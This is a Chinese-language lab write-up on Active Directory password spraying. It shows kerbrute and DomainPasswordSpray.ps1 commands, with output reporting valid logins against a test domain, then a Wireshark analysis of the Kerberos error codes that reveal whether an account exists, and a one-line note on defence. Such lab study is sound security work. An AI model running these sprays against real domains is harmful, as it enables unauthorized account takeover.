










密码喷洒一般和域内用户名枚举一起执行，当用户名存在的时候，密码正确和密码错误的响应包也不一样

# 一、域内密码喷洒工具
## 1、kerbrute
```plain
(base) PS C:\Security\github\kerbrute> .\kerbrute_windows_386.exe passwordspray --dc 192.168.30.2 -d sec.com .\usernames.txt Az123456@

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/19/24 - Ronnie Flathers @ropnop

2024/08/19 10:23:09 >  Using KDC(s):
2024/08/19 10:23:09 >   192.168.30.2:88
2024/08/19 10:23:09 >  [+] VALID LOGIN:  test2@sec.com:Az123456@
2024/08/19 10:23:09 >  [+] VALID LOGIN:  test1@sec.com:Az123456@
2024/08/19 10:23:09 >  [+] VALID LOGIN:  administrator@sec.com:Az123456@
2024/08/19 10:23:15 >  Done! Tested 81481 logins (3 successes) in 5.784 seconds
(base) PS C:\Security\github\kerbrute>
```

## 2、pykerbrute
```plain
(py38) C:\root\tools\pyKerbrute> python2 ADPwdSpray.py 192.168.30.2 /root/tmp/test.txt ntlmhash 27d86657f458a28aeed03655ba6a6137 tcp
Traceback (most recent call last):
  File "ADPwdSpray.py", line 14, in <module>
    from Crypto.Cipher import MD4, MD5
ImportError: cannot import name MD4

```

注：由于版本原因，尝试使用hash方式未成功

## 3、DomainPasswordSpray.ps1
```plain
PS C:\Users\administrator\Desktop> Import-Module .\DomainPasswordSpray.ps1
PS C:\Users\administrator\Desktop> Invoke-DomainPasswordSpray -password Az123456@
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 5 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 5 users gathered from the current user's domain
[*] The domain password policy observation window is set to 10 minutes.
[*] Setting a 10 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 5 accounts?
[Y] Yes  [N] No  [?] 帮助 (默认值为“Y”):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Az123456@ against 5 users. Current time is 2:28
[*] SUCCESS! User:Administrator Password:Az123456@
[*] SUCCESS! User:test1 Password:Az123456@
[*] SUCCESS! User:test2 Password:Az123456@
[*] Password spraying is complete
PS C:\Users\administrator\Desktop>
```

注：该脚本需要在域机器上执行

# 二、域内密码喷洒分析
尝试使用kerbrute工具对administrator(正常且密码正确)，test3（正常但密码错误），hack（禁用），error1(不存在)四个账号进行测试，并且使用wireshark抓包。

## 1、cname
## 先来看前四个AS-REQ的报文，报文里CNameString包含了用户名




## 2、error1用户
接着先看第一个响应包，返回报文KRB5DC_ERR_C_PRINCIPAL_UNKNOWN代码，代表了error1用户不存在



## 3、hack用户
继续看第二个响应包，返回报文KRB5KDC_ERR_CLIENT_REVOKED NT Status: STATUS_ACCOUNT_DISABLED代码，代表hack用户存在但被禁用



## 4、test3用户
接着看用户test3的响应包，请求响应了两次



第一个包表示需要预认证



第二个包表示，虽然用户正常存在，但是提供的hash密码是错误的，也就认证失败



## 5、administrator用户


第一个包和上面的一致，需要预认证



第二、三个包代表身份认证成功



注：KRB5KRB_ERR_RESPONSE_TOO_BIG表示来自服务器的响应太大，无法容纳在单个 UDP 数据包中，从而导致其被丢弃

# 三、域内密码喷洒防御
Kerberos身份验证失败的时候，不会产生日志，较难防御。